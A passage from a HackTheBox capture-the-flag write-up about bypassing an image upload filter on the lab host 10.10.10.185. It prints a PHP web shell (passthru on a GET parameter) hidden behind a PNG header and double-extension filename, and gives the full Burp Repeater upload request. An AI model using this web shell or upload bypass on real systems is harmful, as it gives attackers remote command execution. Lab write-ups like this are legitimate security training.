 After getting access to the upload page, I crafted an fake image upload with a PNG file header and PHP code in it and send it using Burp Repeater. I got this idea a while back from watching Ippsec's videos on [HackTheBox - Vault](https://www.youtube.com/watch?v=LfbwlPxToBc&t=519s).

[https://www.php.net/manual/en/function.passthru.php](https://www.php.net/manual/en/function.passthru.php) [https://stackoverflow.com/questions/732832/php-exec-vs-system-vs-passthru](https://stackoverflow.com/questions/732832/php-exec-vs-system-vs-passthru)

`<?php passthru($_GET['test']); ?>`

```http
POST /upload.php HTTP/1.1
Host: 10.10.10.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.185/upload.php
Content-Type: multipart/form-data; boundary=---------------------------25702794813234425341306225294
Content-Length: 392
Connection: close
Cookie: PHPSESSID=vfentnpg4tsu3j7ika4djhsjmv
Upgrade-Insecure-Requests: 1
DNT: 1

-----------------------------25702794813234425341306225294
Content-Disposition: form-data; name="image"; filename="htb1.php.png"
Content-Type: image/png

PNG

<?php passthru($_GET['test']); ?>
-----------------------------25702794813234425341306225294
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------25702794813234425341306225294--
```


> _This text may not work by directly copying and pasting. The PNG file header has some other bytes in it that do not render as ASCII and do not copy properly, but Burp is capable of grabbing them if you capture a file upload/download. I sent a test PNG first, then cut out everything but the headers to craft my payload._
